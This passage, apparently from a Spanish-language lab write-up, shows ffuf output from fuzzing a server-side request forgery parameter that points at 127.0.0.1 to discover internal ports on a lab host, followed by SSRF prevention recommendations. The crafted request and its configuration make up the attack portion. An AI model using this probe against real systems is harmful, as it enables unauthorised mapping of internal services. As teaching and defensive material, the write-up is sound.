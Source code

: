 ```
 :: Wordlist         : FUZZ: /usr/share/wordlists/ports.txt
 :: Header           : Referer: http://10.129.63.215/
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Accept-Language: es,es-ES;q=0.9,en;q=0.8,zh-TW;q=0.7,zh-CN;q=0.6,zh;q=0.5
 :: Header           : Host: 10.129.63.215
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
 :: Header           : Accept: */*
 :: Header           : Origin: http://10.129.63.215
 :: Header           : Connection: keep-alive
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://127.0.0.1:FUZZ&date=2024-01-25
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 21
________________________________________________

80                      [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 4031ms]
5000                    [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 151ms]
```

### Recomendaciones

Para prevenir la vulnerabilidad de SSRF se puede implementar los siguientes controles:

* Usar una lista blanca (allowlist) de hosts o rangos IP a los que la aplicación puede hacer solicitudes.

* Rechazar esquemas no HTTP/HTTPS (file://, gopher://, ftp://, dict://, file:...) a menos que se necesiten expresamente.

* Normalizar la URL antes de validarla (decodificar percent-encoding una vez, puntear espacios, quitar \0).

* No aceptar URLs relativas que puedan resolverse internamente sin control.

